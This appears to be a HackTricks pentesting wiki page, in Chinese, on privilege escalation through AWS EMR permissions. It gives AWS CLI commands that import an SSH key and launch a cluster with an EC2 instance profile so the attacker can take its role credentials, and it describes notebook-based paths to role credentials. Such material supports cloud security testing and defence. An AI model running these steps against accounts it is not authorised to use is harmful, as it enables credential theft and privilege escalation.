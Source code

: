 # AWS - EMR Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EMR

更多关于 **EMR** 的信息在：

{{#ref}}
../aws-services/aws-emr-enum.md
{{#endref}}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

拥有这些权限的攻击者可以 **运行一个新的 EMR 集群并附加 EC2 角色**，并尝试窃取其凭证。\
请注意，为了做到这一点，您需要 **知道在账户中导入的一些 ssh 私钥** 或导入一个，并能够 **在主节点上打开 22 端口**（您可能能够通过 `--ec2-attributes` 中的 `EmrManagedMasterSecurityGroup` 和/或 `ServiceAccessSecurityGroup` 属性来做到这一点）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
注意如何在 `--service-role` 中指定 **EMR 角色**，以及在 `--ec2-attributes` 中指定 **ec2 角色**，位于 `InstanceProfile` 内。然而，这种技术仅允许窃取 EC2 角色凭证（因为您将通过 ssh 连接），而无法获取 EMR IAM 角色。

**潜在影响：** 提升到指定的 EC2 服务角色。

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

拥有这些权限的攻击者可以进入 **AWS 控制台**，创建一个 Notebook 并访问它以窃取 IAM 角色。

> [!CAUTION]
> 即使在我的测试中将 IAM 角色附加到 Notebook 实例，我注意到我能够窃取 AWS 管理的凭证，而不是与 IAM 角色相关的凭证。

**潜在影响：** 提升到 AWS 管理角色 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

仅凭此权限，攻击者将能够访问 **Jupyter Notebook 并窃取与之关联的 IAM 角色**。\
Notebook 的 URL 是 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

> [!CAUTION]
> 即使在我的测试中将 IAM 角色附加到 Notebook 实例，我注意到我能够窃取 AWS 管理的凭证，而不是与 IAM 角色相关的凭证。

**潜在影响：** 提升到 AWS 管理角色 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{{#include ../../../banners/hacktricks-training.md}}
